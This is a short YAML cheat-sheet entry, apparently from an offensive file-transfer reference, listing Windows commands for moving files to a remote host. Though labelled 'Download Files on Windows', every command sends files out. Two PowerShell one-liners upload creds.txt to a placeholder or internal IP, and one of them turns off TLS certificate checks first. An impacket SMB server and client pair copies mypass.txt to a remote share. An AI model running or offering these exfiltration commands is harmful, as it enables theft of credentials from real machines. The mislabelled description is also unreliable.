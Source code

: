 ```yaml
---
functions:
  file-transfer:
    - description: Download Files on Windows
      code: |
        +++++++++++POWERSHELL+++++++++++
        powershell -c (New-Object System.Net.WebClient).UploadFile('http://<ip>:<port>', 'creds.txt')
        powershell -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).UploadFile('https://10.0.0.4:8000', 'creds.txt')

        +++++++++++SMB+++++++++++
        SERVER: impacket-smbserver "share" . -smb2support
        CLIENT: (1) net use \\192.168.119.159\share   (2)  copy "mypass.txt" \\192.168.119.159\share\
---
```

